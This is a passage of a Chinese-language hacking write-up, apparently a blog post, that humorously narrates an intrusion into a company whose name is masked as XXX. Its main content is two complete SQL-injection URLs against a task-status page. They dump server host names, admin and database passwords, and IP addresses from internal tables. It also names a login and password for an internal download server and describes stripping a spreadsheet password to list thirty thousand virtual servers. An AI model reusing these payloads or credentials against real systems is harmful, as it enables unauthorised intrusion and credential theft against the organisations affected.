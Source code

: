图9 XXX模块无法运行于64位模式

是夜，秋风渐起凉人意，咱晒晒山寨代码暖和一下。

![](http://drops.javaweb.org/uploads/images/f9f9320dc441e521f24756984879bdf49bf3142d.jpg)

图10 256位AES

我自罚三杯，早早地睡了，想到明日就可实现不睡懒觉的伟大理想，辗转反侧。

翌日，我错过了最后一个肉包子。还是大师说的对，“施主，吃素有益健康，请把肉施舍给老衲吧，哦米拖佛。”

0x04 三颗蓝宝石
=====

掘的过程犹如筛沙，漫长而无聊，今日稍加展示三颗璀璨的蓝宝石。

第一枚，vhcon.XXX.com漏点。查询vminfo表：

```
http://vhcon.XXX.com/taskmanstatus/query.aspx?likename=cnd%27 union all Select top 100 Convert(Nvarchar(4000),[主机名]%2bChar(124)%2b[adm口令]%2bchar(124)%2b[bka口令]%2bchar(124)%2b[数据库口令]%2bchar(124)%2b[主IP]%2bchar(124)%2b[从IP]%2bchar(124)%2b[主机类型]%2bchar(124)%2b[系统类型]%2bchar(124)%2b[系统版本]%2bchar(124)%2b[出厂编号]%2bchar(124)%2b[机房位置]%2bchar(124)%2b[从IP情况说明]%2bchar(124)%2b[组号]%2bchar(124)%2b[内网IP]%2bchar(124)%2b[城市]%2bchar(124)%2b[服务商]%2bchar(124)%2b[机房]%2bchar(124)%2b[服务器类型]%2bChar(124)%2bconvert(nvarchar(400),[id])) as servername,[主IP] as chkuserdir  From [hiconnect_db]..[vminfo];--&act=loadtask&taskname=chkuserdir&tasktype=unmatch&

```

查询keyplatform表。对于这个keyplatform，我曾经做过非常深入的问卷调查，全国人民一致表示资历尚浅，弄不清这西洋文~~~后经专家的权威认证，Key是钥匙，platform是平台，而后专家缓缓地闭上眼，想像出平台上挂满了钥匙的场景。如此渊博的学识，无怪已经入选了社科院，佩服佩服。

```
http://vhcon.XXX.com/taskmanstatus/query.aspx?likename=cnd%27 union all Select top 1000 Convert(Nvarchar(4000),[hostname]%2bChar(124)%2b[wanip]%2bchar(124)%2b[lanip]%2bchar(124)%2b[username]%2bchar(124)%2b[password]%2bchar(124)%2b[conip]%2bchar(124)%2bconvert(nvarchar(200),[contype])%2bchar(124)%2b[os]%2bchar(124)%2b[dev]%2bchar(124)%2b[pe]%2bchar(124)%2bconvert(nvarchar(200),[appgroup])%2bchar(124)%2b[city]%2bchar(124)%2b[jifang]%2bchar(124)%2b[apps]%2bchar(124)%2bconvert(nvarchar(200),[ifdel])%2bChar(124)%2bconvert(nvarchar(400),[id])) as servername,[hostname] as chkuserdir  From [hiconnect_db]..[keyplatform];--&act=loadtask&taskname=chkuserdir&tasktype=unmatch&

```

![](http://drops.javaweb.org/uploads/images/ab7eb642b801b30f257ab7eaa9a6b436ffa25718.jpg)

图12 keyplatform

第二枚，立足于XXX的服务器，访问opdown.XXX.com，用户名civilink，密码opdown。下载HiConnectClient.zip，解压后将“常用表格-虚机.xls”去除密码，三万台虚拟服务器一目了然。

![](http://drops.javaweb.org/uploads/images/f79bee41e984398c5d9b12bba32118ba5d2b3d0e.jpg)

图13 Opdown的满汉全席

![](http://drops.javaweb.org/uploads/images/c8f6a3c5148eeda9bd835ce2a5e78d36787eb67e.jpg)

图14 明码标价，诚得我心
